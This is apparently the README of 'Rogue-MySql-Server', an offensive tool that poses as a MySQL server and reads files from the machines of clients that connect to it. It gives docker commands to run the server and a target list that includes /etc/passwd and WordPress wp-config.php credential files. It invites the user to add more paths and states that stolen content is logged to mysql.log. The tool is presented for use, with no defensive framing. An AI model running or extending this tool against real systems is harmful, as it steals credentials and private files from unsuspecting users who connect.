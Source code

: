 Rogue-MySql-Server
==================

Edit script and change file to read and server port if you want. Run script and connect to your server for read file from client side. 
Read mysql.log for readed file content.

```
docker build -t Rogue-MySql-Server:latest .
docker run -it -p 3306:3306 -v $(pwd):/log/ Rogue-MySql-Server:latest
```

You can cat mysql.log to see what has been captured.

Currently attempts to grab the following:

```
filelist = (
    '/etc/passwd',
    '/etc/hosts',
    '/var/www/html/index.php',
    '/var/www/html/wp-config.php',
    '/var/www/index.php',
    '/var/www/wp-config.php'
)
```

Just add more paths for files you want and every time you query the mysql server it will attempt to grab a new file.
